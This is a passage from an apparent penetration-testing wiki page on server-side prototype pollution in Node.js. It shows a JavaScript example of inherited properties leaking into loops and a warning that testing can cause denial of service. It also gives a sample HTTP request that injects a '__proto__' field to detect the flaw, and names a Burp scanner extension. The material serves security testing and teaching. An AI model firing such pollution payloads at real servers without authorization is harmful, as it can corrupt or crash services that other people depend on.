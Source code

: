 ```javascript
// Output: a, b, foo
```

```javascript
// Example with "array"
const myArray = ['a','b'];
Object.prototype.foo = 'bar';

for(const arrayKey in myArray){
    console.log(arrayKey);
}

// Output: 0, 1, foo
```

{{< /details >}}

{{< hint style=warning >}}
**Warning**: It's easy to unintentionally cause a denial-of-service (DoS), making testing in production risky. In addition, once a server-side prototype is polluted, the change persists for the entire lifetime of the Node process, with no way to reset it.
{{< /hint >}}

**Detection - (polluted property reflection)**

Attempt to pollute the global `Object.prototype` with an arbitrary property in a `POST` / `PUT` request

```http
POST /user/update HTTP/1.1
Host: vulnerable-website.com
...
{
    "user":"ithomas",
    "firstName":"isaiah",
    "lastName":"thomas",
    "__proto__":{
        "foo":"bar"
    }
}
```

```http
HTTP/1.1 200 OK
...
{
    "username":"ithomas",
    "firstName":"isaiah",
    "lastName":"thomas",
    "foo":"bar"
}
```

**Detection - (without polluted property reflection \[Automatic])**

Server-Side Prototype Pollution Scanner (Burp extension)
